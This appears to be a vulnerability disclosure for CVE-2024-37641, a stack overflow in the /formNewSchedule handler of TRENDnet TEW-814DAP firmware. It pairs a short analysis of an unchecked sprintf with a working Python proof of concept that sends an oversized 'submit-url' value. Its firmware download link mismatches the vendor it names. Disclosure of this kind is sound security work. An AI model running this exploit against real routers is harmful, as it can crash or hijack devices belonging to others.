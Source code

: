 # TRENDnet TEW-814DAP v1_(FW1.01B01) stack overflow  at /formNewSchedule

Product: TRENDnet TEW-814DAP Firmware Version: v1_(FW1.01B01)  

Manufacturer's website information：http://trendnet.com.cn/

Firmware download address ：[http://download.trendnet.com/](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-37641

### Analysis

The decompiled code of function which read value of parameter "submit-url" and call send_redirect_perm function with the value as a parameter.

![image-20240613134734111](./image-20240613134734111.png)

Parameter a2 is copied to buffer v14 through the sprintf function, but the length of parameter a2 is not checked.

Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

![image-20240613134952323](./image-20240613134952323.png)

### POC

```python
import argparse, requests, sys, re, json, time

def get_TOKEN(base_url):
    return requests.get(base_url).headers.get('Set-Cookie')

def get_htm(base_url):
    url = f"{base_url}/admin_schedules.htm"
    try:
        return requests.get(url)
    except Exception as e:
        pass

def poc(base_url, cookie):
    url = f"{base_url}/boafrm/formNewSchedule"
    data = {
        'submit-url': 'A' * 1000
    }
    return requests.post(url, headers={'Cookie': cookie}, data=data, allow_redirects=False)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Run the exploit')
    parser.add_argument('ip', type=str, default=None, help='The server ip')
    args = parser.parse_args()
    base_url = f"http://{args.ip}"
    cookie = get_TOKEN(base_url)
    get_htm(base_url)
    poc(base_url, cookie)
```

